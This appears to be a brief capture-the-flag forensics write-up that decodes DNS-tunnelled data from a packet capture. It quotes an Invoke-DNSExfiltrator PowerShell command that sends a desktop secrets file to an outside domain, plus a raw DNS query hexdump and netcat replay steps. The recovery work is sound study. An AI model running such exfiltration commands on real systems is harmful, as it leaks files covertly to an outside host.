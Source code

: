 <https://file.hkcert23.pwnable.hk/yes-i-know-i-know_a60eb430a7151bf685dfc486c83947a9.zip>

### tcp.stream eq 51

```powershell
Invoke-DNSExfiltrator -i C:\Users\Tom\Desktop\secrets.txt.txt -d igotoschoolbybus.online -p 'K#2dF!8t@1qZ' -s 192.168.135.135
```


### udp.stream eq 64

```hexdump
00000000: 461e 0100 0001 0000 0000 0000 0469 6e69  F............ini
00000010: 741c 4f4e 5357 4734 5446 4f52 5a53 3435  t.ONSWG4TFORZS45
00000020: 4459 4f51 5848 4936 4455 5051 5a41 0662  DYOQXHI6DUPQZA.b
00000030: 6173 6536 3410 6967 6f74 6f73 6368 6f6f  ase64.igotoschoo
00000040: 6c62 7962 7573 066f 6e6c 696e 6500 0010  lbybus.online...
00000050: 0001                                     ..
```


### Decode

```sh
sudo python2 ./DNSExfiltrator/dnsexfiltrator.py -d 'igotoschoolbybus.online' -p 'K#2dF!8t@1qZ'

cat 64.dmp | nc -c -u localhost 53
cat 65.dmp | nc -c -u localhost 53
cat 66.dmp | nc -c -u localhost 53
```
